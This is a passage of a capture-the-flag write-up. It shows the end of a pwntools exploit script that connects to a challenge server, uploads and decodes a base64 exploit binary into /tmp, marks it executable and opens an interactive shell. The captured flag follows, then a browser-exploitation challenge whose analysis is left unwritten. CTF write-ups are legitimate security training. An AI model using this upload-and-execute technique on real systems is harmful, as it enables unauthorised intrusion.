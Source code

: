 ```python
    run(b'base64 -d /tmp/b64exp > /tmp/exploit')
    run(b'rm /tmp/b64exp')
    run(b'chmod +x /tmp/exploit')

def exploit():
    global io
    io = remote(host, port)

    header = io.recvuntil(b'solution:').strip()
    print(header)
    pow = input("pow >> ")
    io.sendline(pow.encode())

    upload_payload()

    io.interactive()

if __name__ == '__main__':
    exploit()
```
{% endcode %}

{% hint style="success" %}
Flag: _**CJ{8572170a6ebad8e9d9602f7025dbf8cd8f6852c919cad763194c387e2ca2026d}**_
{% endhint %}

## Babybrowser

### Description

> Pls dont 0 day :(, don't bully me :(
>
> `nc 152.42.183.87 10014`
>
> Author: **Linz**
>
> Hint:
>
> [https://doar-e.github.io/blog/2019/01/28/introduction-to-turbofan/](https://doar-e.github.io/blog/2019/01/28/introduction-to-turbofan/)
>
> I mean, that's should be more than enough :D

### Analysis

i will eventually do it

### Exploitation

i will eventually do it

